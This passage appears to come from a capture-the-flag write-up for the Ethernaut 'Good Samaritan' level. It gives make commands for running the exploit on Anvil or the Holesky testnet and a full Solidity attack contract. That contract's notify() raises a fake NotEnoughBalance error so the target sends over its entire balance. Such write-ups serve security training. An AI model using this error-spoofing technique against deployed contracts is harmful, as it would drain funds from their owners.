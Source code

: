 {% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-27

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-27

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/5baa0af7e2d29b6e478e314d0e41eb757bf5923f/src/Level27.sol" %}

{% code title="src/Level27.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// ================================================================
// │                    LEVEL 27 - GOOD SAMARITAN                 │
// ================================================================
interface IGoodSamaritan {
    function coin() external view returns (address coinAddress);
    function notify(uint256 amount) external;
    function requestDonation() external returns (bool enoughBalance);
}

interface ICoin {
    function balances(address account) external view returns (uint256);
}

contract AttackContract {
    error NotEnoughBalance();

    IGoodSamaritan goodSamaritan;

    function notify(uint256 /* amount */ ) public view {
        // Check the balance of this contract, and if it is 10,
        // then revert with the custom error message NotEnoughBalance
        // to trigger the transferRemainder function in the GoodSamaritan contract
        ICoin coin = ICoin(goodSamaritan.coin());

        if (coin.balances(address(this)) == 10) {
            revert NotEnoughBalance();
        }
    }

    function callGoodSamaritan(address targetContractAddress) public {
        goodSamaritan = IGoodSamaritan(targetContractAddress);
        goodSamaritan.requestDonation();
    }
}
```